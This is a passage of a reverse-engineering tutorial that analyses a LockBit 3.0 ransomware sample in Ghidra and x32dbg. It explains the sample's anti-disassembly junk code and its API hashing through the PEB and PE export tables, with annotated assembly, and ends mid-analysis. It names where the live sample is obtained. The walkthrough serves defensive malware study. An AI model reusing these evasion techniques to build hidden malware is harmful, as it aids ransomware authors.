# Preparing the malware
---
First, we need a sample of LockBit 3.0, which can be obtained from MalwareBazaar. The one that I will be reverse engineering has the hash `md5:33228a20a7e985f02e2ddd73cccde729`.
<div align="center"></div>

The malware will be compressed with a password as an additional security measure. The password is in the same MalwareBazaar link from where we retrieved this sample; the password is "*infected*".
# Ghidra
## Creating our Lockbit Project in Ghidra
---
In `File > New Project...` or `CTRL+N`.
<div align="center"></div>


Now we will need to choose between `Non-Shared Project` or `Shared Project`; in our case, we will be working on this project alone, so we will choose the `Non-Shared Project` and hit `Next >>`.
<div align="center"></div>


Then we will assign a name to the project and click `Finish`.
<div align="center"></div>


Now, we can drag the malware directly to the project *Lockbit-Ghidra*.
<div align="center"></div>


For the Import setting we will leave them at default and we will click `OK`.
<div align="center"></div>


After the import, it will generate the results, informing that the exports were successful.
<div align="center"></div>


## Functions and Control Flow
---
### Setting-up Analysis
--- 
Now, to start with the static analysis, we just need to click on the imported LockBit 3.0 sample in Ghidra.
<div align="center"></div>

The first time, it will say that the executable has not been analysed, so we will start the analysis by clicking `Yes`.

Now, for the analysis options, we need to additionally enable the `Decompiler Parameter ID` to make the code more readable and accurate by making Ghidra attempt to identify function parameters and their types during the decompilation phase of the binary code.
<div align="center"></div>


Also, it will be important to enable the `WindowsPE x86 Propagate External Parameters` option to recognize external library function calls on the Windows platform, such as the Windows API functions that will be very important throughout the entire analysis.
<div align="center"></div>

Now we will just click the `Analyze` button and start the decompilation to begin statically analysing the ransomware.
### Statical Analysis
--- 
#### General File Information
To check general information about the file, we will use the program [`Detect It Easy`](https://github.com/horsicq/Detect-It-Easy).
<div align="center"></div>

We will open the sample using the folder button.
<div align="center"></div>

At the bottom, we can see in the scan section that it's a PE file for 32 bits, the packer is Microsoft Visual C++, and it indicates that the file has high entropy.
<div align="center"></div>

If we go to the entropy section, we will see that the entropy is high and most of the executable is packed; 89% of the content is packed with an entropy of `7.19861`. It also has multiple packed sections.
<div align="center"></div>

Besides that, we can see the file properties showing its size:
<div align="center"></div>

To get the file hashes, we can use the following commands from PowerShell:
> Get-FileHash -Path ".\0845a8c3be602a72e23a155b23ad554495bd558fa79e1bb849aa75f79d069194.exe" -Algorithm MD5
> Get-FileHash -Path ".\0845a8c3be602a72e23a155b23ad554495bd558fa79e1bb849aa75f79d069194.exe" -Algorithm SHA1
> Get-FileHash -Path ".\0845a8c3be602a72e23a155b23ad554495bd558fa79e1bb849aa75f79d069194.exe" -Algorithm SHA256
> (Get-FileHash -Path ".\0845a8c3be602a72e23a155b23ad554495bd558fa79e1bb849aa75f79d069194.exe" -Algorithm SHA512).Hash
<div align="center"></div>


| Campo            | Valor                                                                                                                                                                                                                                                                                                                         |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Name**         | 0845a8c3be602a72e23a155b23ad554495bd558fa79e1bb849aa75f79d069194.exe                                                                                                                                                                                                                                                          |
| **Hash**         | MD5: `33228A20A7E985F02E2DDD73CCCDE729`  <br>SHA1: `58AB960E629A609D135E1988C72F2991E5F76E30`  <br>SHA256: `0845A8C3BE602A72E23A155B23AD554495BD558FA79E1BB849AA75F79D069194`  <br>SHA512: `075002DD1B0F8E536C1FF99D30368F5ADFC90A2F3E7A74C9770119E7B54A5851236657B7EDCB735D457E78A7E67B7C285B6CEAA6CA2907542AC208DFC8C9AABE` |
| **Type of file** | PE                                                                                                                                                                                                                                                                                                                            |
| **System**       | MS Windows                                                                                                                                                                                                                                                                                                                    |
| **Architecture** | 32 bits                                                                                                                                                                                                                                                                                                                       |
| **Size**         | 146 KB                                                                                                                                                                                                                                                                                                                        |
| **Packer**       | Assembly                                                                                                                                                                                                                                                                                                                      |
| **Entropy**      | 7.19861                                                                                                                                                                                                                                                                                                                       |

#### Introduction
First, if we check `Window > Defined Strings`, there is nothing remarkable; we see that this malware does a much better job at avoiding easy analysis by hiding all the loaded functions through obfuscating each string in the program.
<div align="center"></div>

First, we will look at the function list, which is quite large, with 352 functions decompiled. The first function we will examine is the entry function, the first function called when the program is executed, which is the default entry code generated for Windows executables.
<div align="center"></div>

#### Function entry
At first, we can see in the entry function that it is completely different from what we are used to, with over 62 parameters being passed. There is also a warning that control encountered bad instruction data, indicating that the malware is attempting to make the decompilation difficult. We first observe four functions, but before analysing them, we will investigate the root of the error.
<div align="center"></div>

Further down, at the end of the code, we can see multiple nonsensical operations that don't achieve anything, finishing the program without calling a `wWinMain`, as WannaCry does.

The trash data is intentionally inserted; if you look at the side-by-side comparison, the first seventeen lines are correctly decompiled but do not achieve anything meaningful. After that, there is a considerable amount of memory filled with pure zeroes, which Ghidra's disassembler translates as `ADD [EAX], AL`. As the [`Stack Overflow`](https://es.stackoverflow.com/questions/460261/porque-sumar-tanto-los-registros-ax-eax-rax) forum states, if we look at the assembly, we see that the first instructions are `00 00`.
<div align="center"></div>

It also returns an intended error by repeating the same set of instructions to trigger the error when disassembling.
<div align="center"></div>

At the end of the decompiled entry function, it can be seen that Ghidra creates a function named `halt_baddata()`, partly because there is no jump or return called at the end of the entry function.
<div align="center"></div>

Besides this intentional disassembly, we will check the first four functions.

##### Function FUN_00419000
Just a trash function, with nothing inside it.
<div align="center"></div>


##### Function construct_api_addresses_antidbg (FUN_0040639c)
In this function, we can see a large number of functions being invoked, especially `FUN_00405da0`.  
To clarify the functionality, we will analyze the following functions:
- `FUN_00405aec`
- `FUN_00405da0`
- `FUN_0040b444`
- `FUN_00417738`
- `FUN_0040b470`
<div align="center"></div>

.
	- api_hashing_func (FUN_00405aec):
	<div align="center"></div>
	First, we will change the function type to `*void` because, if we look at how it was previously called, we can see that it is a function of that type. The `code` type in Ghidra is a custom type used to represent a pointer to a function or executable code. 
	<div align="center"></div>
	Knowing this, we will redefine the function type to `*void`. However, we will need to check for critical sections in the assembly code, as some parts are not correctly decompiled: 
	<div align="center"></div>
	Initially, the function sets some global variables (`DAT_004253f8` and `DAT_004253fc`) to provisional values if they are empty. Then, with these provisional values, the function is invoked once again, assigning the returned value to the global variables.
	<div align="center"></div>
	Because these values will be important later, we will retrieve which functions they are loading to avoid confusion with their use; we will use x32dbg for that.
	Before doing anything, we will change the preferences of x32dbg to set the initial breakpoint at the entry function, because there is not any need for this analysis to analyse the system breakpoint. First go to `Options > Preferences`:
	<div align="center"></div>
	From there, uncheck `System Breakpoint*` and click `Save`, then restart x32dbg:
	<div align="center"></div>
	Now we will need to open the file by going to the menu, `File > Open`, and open the malware from there:
	<div align="center"></div>
	<div align="center"></div>
	After opening it, we will go to the second function, the same as we were analysing.
	<div align="center"></div>
	When inside the function, we can put a breakpoint outside the function to see what it is attempting to dynamically load.
	<div align="center"></div>
  We will enter the function because we also want to know what functions are the global variables `DAT_004253f8` and `DAT_004253fc` loading.
	There we can see clearly both data being initialised, so we will put two breakpoints after the function finished to view the contents of `EAX`, what the function returned.
	<div align="center"></div>
	Now we will hit `F9` or the run button until it reaches that point.
	First we can see that the second data, `DAT_004253fc`, loads first the function [`LdrGetProcedureAddress`](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FLdrGetProcedureAddress.html) that is not documented by Microsoft.
	<div align="center"></div>
	The same with the first data, `DAT_004253f8`, that if we hit F9 or the run button, it retrieves the function [`LdrLoadDll`](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FLdrLoadDll.html), also not documented by Microsoft.
	<div align="center"></div>
	Now we will continue until we retrieve the whole function with the hash XOR'd `0xF80FFA68`, the first time the API hashed function is called. If we hit run, it will end up at the end of the execution of the function we previously entered. There we can see it's importing the API [`RtlCreateHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcreateheap).
	<div align="center"></div>
	Before continuing with static analysis, we will also check the retrieved function with the hash `XOR`'d `0x6e6047db`. First put a breakpoint after the function finishes and run the program until it reaches that point. With that we can see it retrieves the API [`RtlAllocateHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlallocateheap).
	<div align="center"></div>
	<div align="center"></div>
.
	After looking a bit more at the code, the most relevant point involves accessing the [`ProcessEnvironmentBlock`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/pebteb/peb/index.htm), specifically at offset `0x0C`. This value, as shown in the following table, corresponds to the `Ldr` field, which is a pointer to a structure of type `_PEB_LDR_DATA`. This structure contains information about the modules loaded into the process.
	Everything described here is based on the **x86 architecture**, due to the nature of the analysed executable.
	<div align="center"></div>
	<div align="center"></div>
  
```assembly
MOV EAX, FS:[0x30]        ; EAX = PEB
MOV EAX, [EAX + 0xC]      ; EAX = PEB->Ldr
LEA ECX, [EAX + 0xC]      ; ECX = &Ldr->InLoadOrderModuleList
MOV [EBP + local_c], ECX  ; Stores the head of the list
MOV ECX, [EAX + 0xC]      ; ECX = Flink => first module (LDR_DATA_TABLE_ENTRY)
   LAB_00405b63:
MOV EBX,dword ptr [ECX + 0x18]
```

| Field                           | Offset        |
| ------------------------------- | ------------- |
| `BYTE InheritedAddressSpace`    | 0x00          |
| `BYTE ReadImageFileExecOptions` | 0x01          |
| `BYTE BeingDebugged`            | 0x02          |
| `BYTE BitField`                 | 0x03          |
| `PVOID Mutant`                  | 0x04–0x07     |
| `PVOID ImageBaseAddress`        | 0x08–0x0B     |
| `PEB_LDR_DATA Ldr`              | **0x0C–0x0F** |

.
	Then, the `Ldr` field is dereferenced, and another access is performed at offset `0x0C`, but this time within the [`_PEB_LDR_DATA`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/ntpsapi_x/peb_ldr_data.htm) structure. That second access corresponds to the `InLoadOrderModuleList` field, which is the head of a doubly-linked list that contains all loaded modules of the process.
	Each element in the list is a pointer to a module structure of type **`LDR_DATA_TABLE_ENTRY`**, and the pointer to the first element (`Flink`) is stored in the variable `local_c` to later detect when the list traversal has returned to the beginning (indicating the loop has finished).

|Field|Offset|
|---|---|
|`ULONG Length`|0x00–0x03|
|`BOOLEAN Initialized`|0x04|
|`BYTE Padding[3]` _(alignment padding)_|0x05–0x07|
|`PVOID SsHandle`|0x08–0x0B|
|`LIST_ENTRY InLoadOrderModuleList`|**0x0C–0x13**|

.
	Also at the end of the loop, it can be seen that it iterates through every module until it reaches the module head once again, if it doesn't satisfy a condition before.
	<div align="center"></div>
	The first thing it does on every loop at each [`LDR_DATA_TABLE_ENTRY`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/ntldr/ldr_data_table_entry.htm) is to access to the `DllBase` at each module, that is, at the 0x18 offset.
	<div align="center"></div>
  
| Field                                                      | Offset           |
| ---------------------------------------------------------- | ---------------- |
| `LIST_ENTRY InLoadOrderLinks`                              | 0x00–0x07        |
| `LIST_ENTRY InMemoryOrderLinks`                            | 0x08–0x0F        |
| `LIST_ENTRY InInitializationOrderLinks`                    | 0x10–0x17        |
| _(union)_ `InInitializationOrderLinks` / `InProgressLinks` | 0x10–0x17 (same) |
| `PVOID DllBase`                                            | **0x18–0x1B**    |

.
	At the start of the main loop, first it gets a pointer to the start of the module. Then it does weird operations to get a specific hexadecimal, in order to difficult the analysis. It first gets access to the `DWORD` `e_lfanew` at `IMAGE_DOS_HEADER`, because of the crafted `0x3c` offset, which references the file address of new exe header, based on the [`header offset`](https://www.sunshine2k.de/reversing/tuts/tut_pe.htm), in order to know  where to look for the file header.

```assembly
    LAB_00405b63:                                    
MOV  EBX,dword ptr [ECX + 0x18]  ; EBX = LDR_DATA_TABLE_ENTRY.DllBase
XOR  EAX, EAX                    ; EAX = 0
INC  EAX                         ; EAX = 1
SHL  EAX, 0x5                    ; EAX = 0x20
LEA  EAX, [EAX + 0x1D]           ; EAX = 0x3D
MOV  EAX, [EBX + EAX*1 - 1]      ; EAX = *(DllBase + 0x3C) => e_lfanew (NT Headers)
```
.
	Then after that, from that point, we go to the next offset, `0x78`, which, based on the [`header offset`]([https://www.sunshine2k.de/reversing/tuts/tut_pe.htm](https://www.sunshine2k.de/reversing/tuts/tut_pe.htm)), is the `ExportDirectory RVA` (Export Directory Relative Virtual Address) that points to the table where the Export Directory is located, relative and not absolute. If it's zero or null, then it goes to the next one or stops, jumping to the end of the loop.
```assembly
MOV  EDX,dword ptr [EAX + 0x78] ; EDX = Export Directory RVA
TEST EDX,EDX                    
JZ   LAB_00405c0c               ; EDX == 0
```
.
	After that, if it's not zero, then it goes to the [`LDR_DATA_TABLE_ENTRY`]([https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/ntldr/ldr_data_table_entry.htm](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/ntldr/ldr_data_table_entry.htm)) and takes the value at the offset `0x2c`, which is the [`UNICODE_STRING`]([https://learn.microsoft.com/en-us/windows/win32/api/subauth/ns-subauth-unicode_string](https://learn.microsoft.com/en-us/windows/win32/api/subauth/ns-subauth-unicode_string)) `BaseDllName`, retrieving with that the DLL name. Then it retrieves in the structure `BaseDllName` the buffer with the `0x4` offset, which is a pointer to a wide-character string, to successfully obtain the name of the DLL, and uses it as a parameter for the function `FUN_004011c4`, which we will analyse to understand better what it retrieves with the name of the DLL.

| Field                  | Offset                    |
| ---------------------- | ------------------------- |
| `USHORT Length`        | 0x00–0x01                 |
| `USHORT MaximumLength` | 0x02–0x03                 |
| `PWSTR Buffer`         | 0x04-(0x04+MaximumLength) |

```assembly
LEA  EDI, [ECX + 0x2C]          ; EDI = _LDR_DATA_TABLE_ENTRY.BaseDllName
PUSH 0x0
PUSH dword ptr [EDI + 0x4]      ; -> BaseDllName.Buffer
CALL       FUN_004011c4         ; Function called with BaseDllName.Buffer and 0x0
```
.
		- custom_hashing_function (FUN_004011c4):
		At this function it seems that it attempts to transform each character of the DLL name (`param_3`), which is a `WCHAR`, we will not change the function signature, as reading assembly in this case is better. In order to do some weird operations, it could be that it is actually trying to hash this name.
		<div align="center"></div>
		Looking at the assembly code at the decompiled if, we see some interesting hexadecimal values, and also that we retrieve each character of the DLL name, looping until we get through the entire `WCHAR`. The first interesting thing is that as we are talking about a `WCHAR`, which is the name of the DLL, the `0x41` in Unicode is the `A`, character and the `0x5a` is `Z`. Checking with `JC` if it's smaller than `A`, skipping the `OR` operation, and with `JA`, it checks if it's above `Z`, also skipping the `OR`. So it seems to do the `OR` operation if the character is between `A` and `Z` uppercase, `A` <= char <= `Z`, and the `OR` operation is what makes the character lowercase because a lowercase is `0x61`, which if we take the uppercase value of `A`, `0x41`, and do an `OR` with `0x20`, it is converted to its lowercase version, happening the same to each char. So it ignores each non-uppercase character, and the non-ignored uppercase character is transformed to its lowercase version. This can be checked at a Unicode table like [`this one`]([https://byte-tools.com/en/ascii/](https://byte-tools.com/en/ascii/)).
```assembly
    LAB_004011d2:                                   
LODSW ESI            ; AX = *(wchar_t*)ESI++; loads 2 bytes (Unicode), one char
NOP
CMP   AX,0x41        ; smaller than 'A'               
JC    LAB_004011e6   ; Skip the OR (not uppercase letter)
CMP   AX,0x5a        ; bigger than 'Z'
JA    LAB_004011e6   ; Skip the OR (not uppercase letter)
OR    AX,0x20        ; Convert the character to its lowercase version ('A' → 'a')
NOP
    LAB_004011e6:
...
TEST  EAX, EAX     ; ¿The string ended?
JNZ   LAB_004011d2     ; if not, do another loop for the next char
```
.
		After the check and transformation to lowercase, if it was an uppercase letter, it does some trash operations, because it doesn't achieve anything.
```assembly
    LAB_004011e6:                                   
XOR   param_1,param_1             ; param_1 = 0
MOV   param_1,0x30                ; param_1 = 0x30
LEA   param_1,[param_1*0x2 + 0x1] ; param_1 = 0x61
ADD   param_2,param_1             ; param_2 = param_2 + param_1
SUB   param_2,param_1             ; param_2 = param_2 + (param_1-param_1) = param_2
XOR   param_1,param_1             ; param_1 = 0
```
.  
		We can see that it makes use of the `ROR` operation that shifts to the right the bits, making shifted bits that are rotated go to the other end (left).
		<div align="center"></div>
		So it does 13 right bits rotation with `ROR`, and after that it adds the char value to `param_2`, making it the irreversible hash of the DLL name until the whole `WCHAR` is processed. Also keep in mind that with the x86 calling conventions (`cdecl` / `stdcall` / `fastcall`), the return value is the one placed at `EAX`, source [`Microsoft Documentation`]([https://learn.microsoft.com/en-us/cpp/cpp/argument-passing-and-naming-conventions?view=msvc-170](https://learn.microsoft.com/en-us/cpp/cpp/argument-passing-and-naming-conventions?view=msvc-170)).
```assembly
    LAB_004011e6:
...                                 
MOV   param_1,0x6                  ; param_1 = 0x6
MOV   param_1,[param_1*0x2 + 0x1]  ; param_1 = 0xD (13)
ROR   param_2,param_1              ; param_2 = ROR(param_2, 13 bits)
ADD   param_2,EAX                  ; param_2 = param_2 + EAX (character AX -> EAX)
NOP
TEST  EAX, EAX                     ; ¿The string ended?
JNZ   LAB_004011d2                 ; if not, do another loop for the next char
MOV   EAX,param_2                  ; return value
```
.
		To make it clear for future references, we will rename the function to `custom_hashing_function`:
		<div align="center"></div>
	After obtaining the hashing function, it continues by saving the hash to `MM1` and obtaining the absolute address to the `Export Directory VA` by adding the `DllBase` pointer, because the `Export Directory RVA` is relative to the module. With the `Export Directory VA`, looking at the offset `0x18`, it points to `NumberOfNames`. Based on the [`documentation`]([https://www.sunshine2k.de/reversing/tuts/tut_pe.htm](https://www.sunshine2k.de/reversing/tuts/tut_pe.htm)), checking if it's not empty and skipping the module if it was empty by jumping to the next module, it gets the absolute address to `AddressOfNames` and `AddressOfNameOrdinals`, then it passes to the function the previously calculated hash and the next value of `AddressOfNames`, which will be iterated one by one in the loop. Then the function `FUN_00401180` is invoked, which we will analyse.
		- `AddressOfNames`: Array that contains API name’s pointers. [`Source`](https://sachiel-archangel.medium.com/how-to-analyze-api-address-acquisition-process-696750f50039)
		- `AddressOfNameOrdinals`: Array containing the ordinal numbers to get the address position of the API function from the index of the API name. [`Source`](https://sachiel-archangel.medium.com/how-to-analyze-api-address-acquisition-process-696750f50039)
```assembly
CALL       custom_hashing_function       ; obtain the hash of the dll name
MOVD       MM1,EAX                       ; save the hash to MM1
LEA        EDX,[EDX + EBX*0x1]           ; EDX = Export Directory VA = RVA+DllBase
MOV        EAX,dword ptr [EDX + 0x18]    ; EAX = Export_Directory.NumberOfNames
TEST       EAX,EAX                       ; Check if NumberOfNames is not empty
JZ         LAB_00405c03                  ; If is empty it skips most of the code
MOV        dword ptr [EBP + local_8],EAX ; local_8 = Export_Directory.NumberOfNames
MOV        ESI,dword ptr [EDX + 0x20]    ; ESI = Export_Directory.AddressOfNames
MOV        EDI,dword ptr [EDX + 0x24] ; EDI= Export_Directory.AddressOfNameOrdinals
LEA        ESI,[ESI + EBX*0x1]        ; ESI = AddressOfNames (RVA) + DllBase 
LEA        EDI,[EDI + EBX*0x1]        ; EDI = AddressOfNameOrdinals (RVA) + DllBase
    LAB_00405baa:  
MOVD       EAX,MM1                    ; EAX = calculated hash
PUSH       EAX                        
LODSD      ESI                        ; iterates over AddressOfNames one by one.                                         ; EAX = next value at AddressOfNames RVA
LEA        EAX,[EAX + EBX*0x1]        ; EAX = AddressOfNames (RVA) + DllBase
PUSH       EAX                        ; Pass next value of AddressOfNames VA (API)
CALL       FUN_00401180
```
.
		- custom_hashing_function_2_noup (FUN_00401180):
		At first sight, it looks too similar to the previous hashing function we had, but it now takes as parameters the exported name (API) and also the previously calculated hash.
		<div align="center"></div>
		If we look closer at the assembly, the functionality is the same as `custom_hashing_function` but without transforming uppercase letters to lowercase. Also keep in mind that in the x86 calling conventions (`cdecl` / `stdcall` / `fastcall`), the return value is the one placed in `EAX`, source [`Microsoft Documentation`](https://learn.microsoft.com/en-us/cpp/cpp/argument-passing-and-naming-conventions?view=msvc-170).
```assembly
MOV   param_2,dword ptr [EBP + param_4]  ; param_2 = calculated_hash
MOV   ESI,dword ptr [EBP + param_3]      ; ESI = exported name (API)
    LAB_0040118e:                                   
LODSB ESI         ; AL = *ESI; ESI++ 
...
XOR   param_1, param_1         ; param_1 = 0
MOV   param_1, 6               ; param_1 = 6
LEA   param_1, [param_1*2 + 1] ; param_1 = 13
ROR   param_2, param_1         ; ROR(calculated_hash, 13)
ADD   param_2, EAX             ; calculated_hash +=char  (AL is lowest part of EAX)
TEST  EAX, EAX                 ; ¿The string ended?
JNZ   LAB_0040118e             ; if not, do another loop for the next char
MOV   EAX,param_2              ; return value
```
.
		We will rename the function to `custom_hashing_function_2_noup`:
		<div align="center"></div>
	So after calculating another hash using the previous hash and another function similar to `custom_hashing_function()`, with the exported name (API), we now compare the newly calculated hash value to `param_1`, the unusual passed parameter, which must be another hash. Until now, the program is attempting to secretly get access to modules, making it quite hard to know what it's doing by not using a traditional method and never directly referencing which modules it is attempting to load.
```assembly
    LAB_00405baa:
...
CALL custom_hashing_function_2_noup  ; EAX = function(exported_name_API, hash)
CMP EAX, [EBP + param_1]             ; hash_2 == param_1
JNZ LAB_00405bf7                     ; jump if hash_2 != param_1
```
.
	If it was not equal, then at `LAB_00405bf7`, it tries to seek for a matching hash with the next exported name.
```assembly
    LAB_00405bf7:
ADD EDI, 0x2                        ; next AddressOfNameOrdinals VA
DEC dword ptr [EBP + local_8]       ; local_8/NumberOfNames -= 1
CMP dword ptr [EBP + local_8], 0x0  ; checks if there are remaining exported names
JNZ LAB_00405baa                    ; start of the loop with next name if available
```
.
	But if it matches, then it retrieves the ordinal, extending it to `DWORD`, getting the valid index for it, and then retrieves the function's absolute address from the Export Directory at AddressOfFunctions and passes it to `FUN_00405990`, which we will analyse.
		- AddressOfFunctions: Array that contains the offset values of the API addresses. [`Source`](https://sachiel-archangel.medium.com/how-to-analyze-api-address-acquisition-process-696750f50039).
```assembly
    LAB_00405baa:
...
MOVZX ESI, word ptr [EDI]    ; ESI = ordinal of exported function (WORD), extended                              ; to DWORD
SHL        ESI,0x2           ; Index of 4 bytes, because AddressOfFunctions DWORDs
MOV        EAX,dword ptr [EDX + 0x1c] ; EAX = Export_Directory.AddressOfFunctions
LEA        ESI,[EAX + ESI*0x1] ; ESI = AddressOfFunctions[ordinal_index] RVA
LEA        ESI,[ESI + EBX*0x1] ; ESI+=DllBase =AddressOfFunctions[ordinal_index] VA
MOV        EAX,dword ptr [ESI] ; EAX = exported function RVA
ADD        ESI,0x4             ; No use?
LEA        EAX,[EAX + EBX*0x1] ; EAX += DllBase = exported function VA
MOVD       MM0,EAX             ; MM0 = exported function VA
PUSH       EAX                 ; Pass it to the function
LEA        EAX,[FUN_00405990]  ; EAX = FUN_00405990 direction
CALL       EAX=>FUN_00405990   ; Call EAX function(FUN_00405990)
```
.
		- func_diff_fwexport (FUN_00405990):
		So after analysing the function, it can be seen that it discards the string/code if it's smaller than 6 characters. Then, it verifies each character to check if it's valid by calling the function `FUN_00405774`, which determines validity by returning `1` (valid) or `0` (invalid). It stops when a character is not valid, returning zero, or processes the whole string/code with all characters being valid, returning one. To understand what is considered valid or invalid, we will check the function `FUN_00405774`.
```assembly
XOR     EBX,EBX             ; EBX = 0
MOV     EDI, dword ptr [EBP + param_1] ; EDI = pointer yo VA exported function
OR      ECX, 0xFFFFFFFF     ; ECX = -1 (counter)
XOR     EAX, EAX            ; EAX = 0
REPNZ SCASB ES:EDI          ; searches for '\0' to know string/code length
NOT     ECX                 ; ECX = length + 1
SUB     EDI, ECX            ; EDI points back again to start of string/code
LEA     ESI, [ECX - 1]      ; ESI = real length of string/code
CMP     ESI, 0x5            ; ¿string less or equal to 5?
JBE     LAB_004059c9        ; If true jumps and returns zero (EAX = EBX = 0)
    LAB_004059af:           ; Loop: iterates for each char at EDI
MOVZX   ECX, byte ptr [EDI] ; ECX = actual byte of string
PUSH    ECX                 ; Pass byte as argument to the function
CALL    FUN_00405774        ; Verifies something at the function
TEST    EAX, EAX            ; ¿valid, 0 or 1?
JNZ     LAB_004059be        ; if not zero, is valid, checks with next char
JMP     LAB_004059c4        ; if zero, is not valid returns zero (EAX = EBX = 0)
    LAB_004059be:
INC     EDI                 ; next char of the code/string
DEC     ESI                 ; reduce counter to iterate exactly the size
TEST    ESI, ESI
JNZ     LAB_004059af        ; if not zero then continues processing the string/code
    LAB_004059c4:
TEST    ESI, ESI            ; ¿processed all the string?
JNZ     LAB_004059c9        ; if not it returns zero (EAX = EBX = 0)
INC     EBX                 ; if processed all the string/code then result EBX = 1
    LAB_004059c9:
MOV     EAX, EBX            ; return EAX = EBX (0 or 1)
```
.
			- func_char_verifier (FUN_00405774):
			<div align="center"></div>
			It checks in the lookup table `DAT_00405790`, which is a large table of 512 bytes, by multiplying the value of the character by 2 and using the result as the index to obtain a value from the table. It then performs an AND operation with the mask `0x157`; if the result is zero, the character is considered invalid, otherwise it is valid.
```assembly
MOVZX ECX, byte ptr [EBP+param_1]  ; Load character (8-bit → 32-bit, zero-extended)
LEA EAX, [DAT_00405790]            ; Load address of lookup table (DAT_00405790)
MOVZX EAX, word ptr [EAX + ECX*2]  ; Get WORD value from table at [table + char*2]
AND EAX, 0x157                     ; Check if any of masked bits (0x157) are set
                                   ; Result: Non-zero → valid, Zero → invalid
```
.
			The process to determine which characters are valid is quite a hassle, but testing various characters manually gives us a clearer picture of what this lookup table validates. Below are some examples:
				- **With `'A'`**  
				  ASCII = `0x41` → Offset = `0x82`  
				  Table value = `0x0081` → `0x0081 & 0x0157 = 0x0001` ✅ Valid
				- **With `NUL`**  
				  ASCII = `0x00` → Offset = `0x00`  
				  Table value = `0x0020` → `0x0020 & 0x0157 = 0x0000` ❌ Invalid
				- **With `'-'`**  
				  ASCII = `0x2D` → Offset = `0x5A`  
				  Table value = `0x0010` → `0x0010 & 0x0157 = 0x0010` ✅ Valid
				- **With `'a'`**  
				  ASCII = `0x61` → Offset = `0xC2`  
				  Table value = `0x0082` → `0x0082 & 0x0157 = 0x0002` ✅ Valid
				- **With `'5'`**  
				  ASCII = `0x35` → Offset = `0x6A`  
				  Table value = `0x0084` → `0x0084 & 0x0157 = 0x0004` ✅ Valid
				- **With `'_'`**  
				  ASCII = `0x5F` → Offset = `0xBE`  
				  Table value = `0x0010` → `0x0010 & 0x0157 = 0x0010` ✅ Valid
				- **With `' '` (space)**  
				  ASCII = `0x20` → Offset = `0x40`  
				  Table value = `0x0048` → `0x0048 & 0x0157 = 0x0000` ❌ Invalid
				- **With `'$'`**  
				  ASCII = `0x24` → Offset = `0x48`  
				  Table value = `0x0010` → `0x0010 & 0x0157 = 0x0010` ✅ Valid
				- **With `'!'`**  
				  ASCII = `0x21` → Offset = `0x42`  
				  Table value = `0x0010` → `0x0010 & 0x0157 = 0x0010` ✅ Valid
			This shows how the lookup table is used to whitelist specific characters considered valid for further processing, rejecting anything outside that subset. This is important when filtering out invalid or forwarded exported names in a PE file.
			.
			With all these checks, the function seems to exclude anything that couldn't be a normal string, which we were passing to the function implementation, which is strange, as it would always be invalid. But if we look at [`Microsoft Documentation`](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#export-address-table), it could be a literal string pointing to a forwarded exported function, not the actual implementation. This is not valid for loading a library dynamically in a hidden way, as LockBit attempts.
			We will rename the function to `func_char_verifier`:
			<div align="center"></div>
		So after checking the previous function and corroborating it with [`Microsoft documentation`](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#export-address-table), it checks if it's a forwarded export or the actual function implementation. We will rename the function to `func_diff_fwexport`:
		<div align="center"></div>

  .
	The next steps now are checking if the result of the function was zero or different. 
	First, in the case it was zero, it follows the next logic. Checks if it was not a forwarded exported function with `func_diff_fwexport`, and then it returns the code implementation of the [`API`]([https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-libraries](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-libraries)) to make use of it, as we previously retrieved it from `AddressOfFunctions[ordinal_index]` and copied it to `MM0`.
```assembly
    LAB_00405baa:
...
CALL       EAX=>func_diff_fwexport   ; Call EAX function(func_diff_fwexport)
TEST       EAX,EAX                   ; Is an forwarded exported function?
JZ         LAB_00405bf5       ; If 0 jumps because not forwarded exported function
...
    LAB_00405bf5                                    
JMP        LAB_00405c03       ; JMP without condition
	LAB_00405c03
MOVD       EAX,MM0            ; EAX = exported function VA 
TEST       EAX,EAX            ; if not empty, is exported function implementation
JZ         LAB_00405c0c       ; Jump in case it was empty, to the start of the loop
							  ; to the next function name, which in this case it 
							  ; will not be zero
JMP        LAB_00405c17       ; Jumps to the next set of instructions
    LAB_00405c17
MOVD       EAX,MM0            ; return the exported function implementation (API)
```
.
	In case it was a forwarded exported function, it will return `1`, and then the logical flow will be distinct. With the forwarded exported function, it's passed to the function `FUN_00405a84` in order to do some operations with it, which, if it returns zero/empty, returns to the start of the loop and tries again with another function name.
```assembly
    LAB_00405baa:
...
CALL       EAX=>func_diff_fwexport   ; Call EAX function(func_diff_fwexport)
TEST       EAX,EAX                   ; Is an forwarded exported function?
JZ         LAB_00405bf5       ; If != 0 then it's a forwarded exported function
							  ; doesn't jump
MOVD       EAX,MM0            ; EAX = forwarded exported function
PUSH       EAX                ; pass forwarded exported function to next function
LEA        EAX,[FUN_00405a84] ; EAX = FUN_00405a84 direction
CALL       EAX=>FUN_00405a84  ; Call EAX function(FUN_00405a84)
MOVD       MM0,EAX            ; Replace MM0 value with the pointer to the forwarded exported function 
    LAB_00405bf5                                    
JMP        LAB_00405c03       ; JMP without condition
	LAB_00405c03
MOVD       EAX,MM0            ; EAX = exported function VA 
